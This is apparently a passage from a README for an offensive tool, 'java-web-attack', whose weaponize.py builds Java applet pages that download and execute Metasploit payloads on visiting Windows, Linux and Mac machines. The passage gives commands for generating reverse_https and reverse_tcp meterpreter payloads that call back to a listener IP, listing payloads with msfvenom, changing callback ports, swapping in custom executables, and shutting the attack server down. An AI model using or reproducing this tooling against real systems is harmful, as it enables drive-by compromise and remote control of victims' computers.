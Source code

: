 Example 4: Stopping the Attack Server
-------------------------------------

To stop the Metasploit listeners and shut down the Python web server, type `exit` into the Metasploit console window. You may have to type it more than once if you were also in a meterpreter session.

Finally, you will need to restart Apache.

`/opt/java-web-attack#` **`sudo service apache2 start`**

Note: If this does not work, rebooting your machine will.

Example 5: Customizing the Payloads
-----------------------------------

There are a few ways to customize the payloads used by `weaponize.py`.

The first is through command line arguments to the script itself. For instance, to customize the Windows and Linux payloads (but leave the OSX payload as default) run:

`/opt/java-web-attack#` **`./weaponize.py -w windows/x64/meterpreter/reverse_https -l linux/x64/meterpreter/reverse_tcp index.html 172.16.215.138`**

In this instance, we specified **windows/x64/meterpreter/reverse_https** in order to use the 64-bit Meterpreter communicating over HTTPS for the Windows payload and **linux/x64/meterpreter/reverse_tcp** to use the 64-bit variant of the default Linux payload.

For a full listing of available payloads you can run the following:

`/opt/java-web-attack#` **`msfvenom -l payloads`**

As there are many payloads available, you may wish to filter them using `grep` to only show one operating system at a time.

`/opt/java-web-attack#` **`msfvenom -l payloads | grep windows`**

---

By default, the ports used for the Windows, Linux, and OSX payloads are 3000, 3001, and 3002, respectively. To customize these ports you will need to edit the **weaponize.py** file. Near the top, you will find these lines where you can customize the ports used.

    WINDOWS_PORT = 3000
    LINUX_PORT = 3001
    OSX_PORT = 3002

Edit the file, save your changes, and rerun `weaponize.py` (follow Example 2) to regenerate your payloads.

---

The third way you can customize the payloads used is to use your own binary files entirely. To do this, simply follow the instructions in Example 2 so that you end up with the **output** directory containing the necessary files. Then replace one or more of the following with the custom executables of your choice.

* msf.exe - The Windows binary that the Java applet downloads and executes.
* nix.bin - The Linux binary that the Java applet downloads and executes.
* mac.bin - The Mac OS X binary that the Java applet downloads and executes.

Note: You will need to set up your own payload listeners if you replace the payload binaries.

